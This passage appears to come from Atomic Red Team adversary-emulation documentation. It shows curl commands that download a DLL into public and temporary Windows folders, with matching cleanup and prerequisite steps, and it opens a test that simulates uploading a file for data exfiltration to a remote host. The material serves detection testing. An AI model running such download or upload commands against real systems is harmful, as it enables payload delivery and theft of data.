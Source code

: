 
```cmd
#{curl_path} -k #{file_download} -o c:\users\public\music\allthethingsx64.dll
#{curl_path} -k #{file_download} --output c:\users\public\music\allthethingsx64.dll
#{curl_path} -k #{file_download} -o c:\programdata\allthethingsx64.dll
#{curl_path} -k #{file_download} -o %Temp%\allthethingsx64.dll
```

#### Cleanup Commands:
```cmd
del c:\users\public\music\allthethingsx64.dll >nul 2>&1
del c:\users\public\music\allthethingsx64.dll >nul 2>&1
del c:\programdata\allthethingsx64.dll >nul 2>&1
del %Temp%\allthethingsx64.dll >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-7.79.1-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
```




<br/>
<br/>

## Atomic Test #19 - Curl Upload File
The following Atomic utilizes native curl.exe, or downloads it if not installed, to upload a txt file to simulate data exfiltration
Expected output will include whether the file uploaded successfully or not.

**Supported Platforms:** Windows


**auto_generated_guid:** 635c9a38-6cbf-47dc-8615-3810bc1167cf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|
| remote_destination | Remote destination | string | www.example.com|
| file_path | File to upload | string | c:&#92;temp&#92;atomictestfile.txt|
